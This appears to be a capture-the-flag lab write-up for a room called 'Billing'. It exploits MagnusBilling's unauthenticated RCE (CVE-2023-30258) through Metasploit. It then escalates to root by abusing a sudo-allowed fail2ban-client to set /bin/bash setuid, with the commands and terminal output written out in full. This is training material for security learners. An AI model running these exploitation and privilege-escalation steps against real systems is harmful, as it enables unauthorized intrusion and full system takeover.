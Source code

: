 # Billing

Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.

nmap -sC -sV 10.10.45.158

![alt text](image.png)

After a short search, we see that it seems like an open-source VoIP billing and management system for managing SIP trunks, VoIP calls, and customer billing. It provides tools for call routing, monitoring, and invoicing.
![alt text](image-1.png)
This has an unauthenticated remote command execution vulnerability CVE-2023-30258, which is available as a manual exploit but is also present in the Metasploit framework.
Let's call it from Metasploit, it's much easier
    ![alt text](image-2.png)
 #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                          

   Don't forget to Set the RHOSTS and LHOST
    ![alt text](image-3.png)
    We are in, let's go more in depth
    ![alt text](image-4.png)
    i wanted to work with the bash, not shell from msfconsole 
    ![alt text](image-5.png)
    Make interactive with python -> python3 -c 'import pty; pty.spawn("/bin/bash")'
    ![alt text](image-6.png)
    User.txt flag 
    ![alt text](image-7.png)
asterisk@ip-10-10-45-158:/home/magnus$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-45-158:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-45-158:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
There you can find an approach to customize a config in the config directory and place code in it that is to be executed with root permissions. Unfortunately, we only have read-only access to the directory...

cat /etc/fail2ban
![alt text](image-8.png)
fail2ban-client is a command-line interface that allows us to interact with, configure, and control the fail2ban-server. To give a brief explanation, fail2ban is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, fail2ban-server is running as root, as expected.
![alt text](image-9.png)
Jails are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

asterisk@ip-10-10-45-158:/etc/fail2ban$  /usr/bin/fail2ban-client set asterisk-manager
<ban$  /usr/bin/fail2ban-client set asterisk-manager
2025-08-30 07:51:34,904 fail2ban                [50777]: ERROR   Permission denied to socket: /var/run/fail2ban/fail2ban.sock, (you must be root)
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager addaction evil
<fail2ban-client set asterisk-manager addaction evil
evil
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager action evil actionban "chmod +s /bin/bash"
<-manager action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager banip 1.2.3.4
</fail2ban-client set asterisk-manager banip 1.2.3.4
1
asterisk@ip-10-10-45-158:/etc/fail2ban$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ /bin/bash -p 
/bin/bash -p 
bash-5.2# whoami
whoami
root
bash-5.2# 
![alt text](image-10.png)